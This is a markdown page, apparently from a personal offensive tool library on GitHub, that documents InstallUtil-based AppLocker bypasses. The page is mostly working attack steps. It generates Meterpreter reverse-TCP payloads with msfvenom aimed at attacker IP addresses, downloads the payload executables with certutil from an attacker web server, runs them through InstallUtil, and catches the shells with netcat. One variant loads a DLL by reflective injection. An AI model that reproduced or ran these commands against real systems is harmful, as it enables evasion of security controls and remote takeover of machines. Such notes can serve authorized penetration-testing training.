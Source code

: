 # InstallUtil

## GitHub Tool Library Reference

The following is a collection of various AppLocker bypass tools

Main Directory: ToolLibrary/AppLocker-CLM/InstallUtil

***

## AppLocker-Bypass&#x20;

will run a runner.ps1 which will be tied to a powershell code runner.&#x20;

### Requirements

The following powershell code runner is required and hosted on kali webserver (python http.server) and renamed to `runner.ps1`

* Reference: ToolLibrary/CodeRunners/powershellCodeRunner-32.ps1\
  Reference: ToolLibrary/CodeRunners/powershellCodeRunner-64.ps1

```bash
# payload for the powershellCodeRunner 32-bit
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8080 EXITFUNC=thread -f ps1

# payload for the powershellCodeRunner 64-bit
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8080 EXITFUNC=thread -f ps1
```

### Execution Steps

```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# Download file via certutil -urlcache -f http://ip/CLMBypass-shell.exe shell.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U shell.exe
```

### Compiled Payload Location

\home\kali\ToolLibrary\Compiled\AppLocker\AppLocker-Bypass.exe

***

## AppLocker-Bypass-Shell

will run a reverse shell and require netcat listener on designated IP address and Port

### Execution Steps

```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# Download file via certutil -urlcache -f http://ip/CLMBypass-shell.exe shell.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U shell.exe
```

### Compiled Payload Location

\home\kali\ToolLibrary\Compiled\AppLocker\AppLocker-Bypass-shell.exe

***

## AppLocker-Bypass-DLL

### Requirements:

Invoke-ReflectivePEInjection.ps1 file hosted on attacker webserver (default port 80)

* ToolLibrary/AppLocker-CLM/AppLocker-Bypass-DLL/Invoke-ReflectivePEInjection.ps1

### Execution Steps

```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# Create the meterpreter DLL (met.dll) and host it in http web directory
┌──(kali㉿kali)-[~/httpDirectory]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.227 LPORT=8080 EXITFUNC=thread -f dll > met.dll

# Download file via certutil -urlcache -f http://ip/CLMBypass-dll.exe dll.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U dll.exe
```

### Compiled Payload Location

\home\kali\ToolLibrary\Compiled\AppLocker\AppLocker-Bypass-DLL
